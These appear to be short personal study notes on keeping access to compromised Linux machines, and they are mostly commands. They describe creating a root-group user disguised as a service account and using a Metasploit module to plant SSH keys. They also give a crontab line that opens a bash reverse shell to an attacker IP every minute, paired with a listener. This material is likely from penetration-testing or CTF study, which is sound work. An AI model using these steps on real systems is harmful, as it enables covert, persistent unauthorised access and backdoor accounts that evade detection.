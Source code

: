 ![](</Images/Pasted image 20240107202811.png>)

Create new user once root. Obfuscate the name to look like a service account. Add to root group `usermod -aG root <new user>`

## Persistence via SSH

Persistence options
`search platform:linux persistence`

Good one to add ssh keys to compromised machines
`exploit/linux/manage_sshkey_persistence`

After logging on copy private key <- chmod 400 after copy

## Persistence via Cronjobs
Set up cronjob to start connection
```bash
echo "* * * * * /bin/bash -c 'bash -i >& /dev/tcp/<attack ip> 0>&1'" > cron
```

To add to cronjob: `crontab -i cron`
Then create listener with the above info and wait for job to run

